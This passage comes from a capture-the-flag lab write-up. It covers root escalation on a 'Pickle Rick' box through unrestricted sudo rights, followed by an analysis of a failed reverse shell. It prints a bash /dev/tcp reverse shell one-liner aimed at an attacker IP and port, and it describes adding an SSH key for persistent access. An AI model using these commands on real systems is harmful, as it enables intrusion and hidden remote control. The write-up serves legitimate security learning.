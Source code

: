 ```console
```

## Privilege Escalation
### Third Ingredient
Finally, we need root access to get the third ingredient. Let's start by checking sudo privileges.

```console
www-data@picklerick:/home/rick$ sudo -l
sudo -l
Matching Defaults entries for www-data on
    picklerick.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        picklerick.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
www-data@picklerick:/home/rick$ 
```

```console
www-data@picklerick:/home/rick$ sudo su -
sudo su -
mesg: ttyname failed: Inappropriate ioctl for device
whoami
root
ls -al
total 28
drwx------  4 root root 4096 Feb 10  2019 .
drwxr-xr-x 23 root root 4096 Dec 31 00:44 ..
-rw-r--r--  1 root root   29 Feb 10  2019 3rd.txt
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwxr-xr-x  3 root root 4096 Feb 10  2019 snap
drwx------  2 root root 4096 Feb 10  2019 .ssh
cat 3rd.txt
REDACTED
```

That's all three ingredients! Keep reading if you're curious why you have to double your bash command to get a proper reverse shell.

## Shell Failure Analysis
While experimenting with reverse shells through the web shell, I couldn't get the bash reverse shell to work.

```console
bash -i >& /dev/tcp/10.0.0.100/4444 0>&1
```

I'd just get an empty response. An empty response made some sense: PHP wasn't capturing stderr and shipping it back through the browser, it was just relaying stdout. I wanted to see that error output, so I used my root access to add an authorized key to the ubuntu user and SSH'd into the box. Next I examined the web shell code in the _portal.php_ file. It was just doing a PHP `shell_exec` and returning the output.
